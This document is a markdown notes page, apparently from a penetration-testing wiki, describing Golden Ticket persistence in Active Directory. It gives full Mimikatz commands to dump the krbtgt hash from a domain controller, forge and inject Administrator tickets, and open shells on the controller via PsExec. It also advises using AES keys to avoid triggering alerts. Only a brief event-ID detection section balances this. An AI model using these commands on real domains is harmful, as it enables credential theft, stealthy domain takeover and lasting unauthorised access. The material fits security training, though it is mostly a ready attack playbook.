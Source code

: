 ```yaml
---
title: "Golden Tickets"
description: "Persistence methods using Golden Tickets."
lead: "Using Golden Tickets for persistence in Active Directory with Mimikatz."
date: 2021-11-06T11:53:35+01:00
lastmod: 2021-11-06T11:53:35+01:00
draft: false
images: []
menu: 
  active_directory:
    parent: "domain_persistence"
weight: 10
toc: true
---
```


## General

- Golden ticket is signed and ecrypted by hash of krbtgt account, making it a valid TGT ticket
- Since user account validation is not done by the DC/KDC until TGT is older than 20 minutes, we can use even deleted/revoked accounts
- krbtgt user hash could be used to impersonate any user with any privileges from even a non-domain machine
- Password change has no effect on this attack

## Exploitation

### Arguments

| Argument | Description |
| --- | --- |
| kerberos::golden | Module name |
| /domain:domain:dollarcorp.moneycorp.local | Domain FQDN |
| /sid:S-1-5-21-1874506631-3219952063-538504511 | SID of the domain |
| /krbtgt:ff46a9d8bd66c6efd77603da26796f35 | NTLM hash of the krbtgt account. Use /aes128 and /aes256 for using AES |
| /User:Administrator | Username for which the TGT is generated |
| /id:500 /groups:512 | Optional User RID (default 500) and Group default 513 512 520 518 519) |
| /startoffset:0 | Optional when the ticket is available (default 0 right now) in minutes. Use negative for a ticket available from past and a larger number for future. |
| /endin:600 | Optional ticket lifetime (default is 10 years) in minutes. The default AD setting is 10 hours = 600 minutes |
| /renewmax:10080 | Optional ticket lifetime with renewal (default is 10 years) in minutes. The default AD setting is 7 days = 100800 |
| /ptt | Inject ticket in current PowerShell process |
| /ticket | Save ticket to file for later use |

### Commands

```powershell
# Execute mimikatz on DC as DA to get krbtgt hash
Invoke-Mimikatz -Command '"lsadump::lsa /patch"' -ComputerName "dcorp-dc"

# Use DCSync with DA privileges to get krbtgt hash
Invoke-Mimikatz -Command '"lsadump::dcsync /user:dcorp\krbtgt"'

# On any machine
# Inject ticket into current PowerShell session
Invoke-Mimikatz -Command '"kerberos::golden /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-1874506631-3219952063-538504511 /User:Administrator /id:500 /groups:512 /krbtgt:ff46a9d8bd66c6efd77603da26796f35 /startoffset:0 /endin:600 /renewmax:10080 /ptt"'

# Save ticket to file for later use
Invoke-Mimikatz -Command '"kerberos::golden /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-1874506631-3219952063-538504511 /User:Administrator /id:500 /groups:512 /krbtgt:ff46a9d8bd66c6efd77603da26796f35 /startoffset:0 /endin:600 /renewmax:10080 /ticket:krbtgt.kirbi"'

# Get domain policy for tickets to set appropriate values
(Get-DomainPolicy -Domain lab.local)."Kerberos Policy"

# Use AES keys to avoid downgrading encryption and generating abnormal traffic/alerts
Invoke-Mimikatz -Command '"kerberos::golden /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-1874506631-3219952063-538504511 /User:Administrator /id:500 /groups:512 /krbtgt:ff46a9d8bd66c6efd77603da26796f35 /aes128:AES128KEY /aes256:AES256KEY /startoffset:0 /endin:600 /renewmax:10080 /ticket:krbtgt.kirbi"'

# Inject ticket into current session
Invoke-Mimikatz -Command '"kerberos::ptt krbtgt.kirbi"'
```

### Executing Commands / Getting a Shell

```powershell
# Inject ticket and open command prompt in current context
Invoke-Mimikatz -Command '"kerberos::ptt krbtgt.kirbi" "misc::cmd"'

# Open command prompt on other machine
PsExec.exe -AcceptEULA \\dcorp-dc cmd.exe

# Run command using WMI
gwmi -Class win32_computersystem -ComputerName dcorp-dc.dollarcorp.moneycorp.local
```

## Detection

- Event IDs:
  - 4624: Account Logon
  - 4634: Account Logoff
  - 4672: Admin Logon

```powershell
Get-WinEvent -FilterHashtable @{Logname='Security';ID=4672} -MaxEvents 1 | Format-List -Property *
```
